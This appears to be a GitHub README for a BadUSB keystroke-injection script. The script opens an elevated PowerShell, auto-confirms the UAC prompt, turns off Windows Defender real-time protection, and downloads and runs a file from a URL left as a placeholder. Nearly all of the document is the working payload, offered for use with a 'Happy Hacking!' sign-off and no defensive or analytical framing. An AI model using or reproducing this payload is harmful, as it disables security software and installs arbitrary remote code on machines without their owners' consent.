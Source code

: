 # badusb-download-execute-disable-windows-defender
This is a Bad USB script which will download and execute any file from the web which is accessible from a direct download link and it will also disable Windows Defender Real Time Protection.

Here is the BadUSB script:
```
DELAY 1000
GUI r
DELAY 200
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
DELAY 1000
ALT y 
DELAY 200
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
DELAY 1200
STRING $down = New-Object System.Net.WebClient; $url = 'URL_GOES_HERE'; $file = 'FILE_NAME_OUTPUT'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; $exec.shellexecute($file); exit;
```

Make sure to change URL_GOES_HERE and FILE_NAME_OUTPUT on the script in order for this to work.
Happy Hacking!
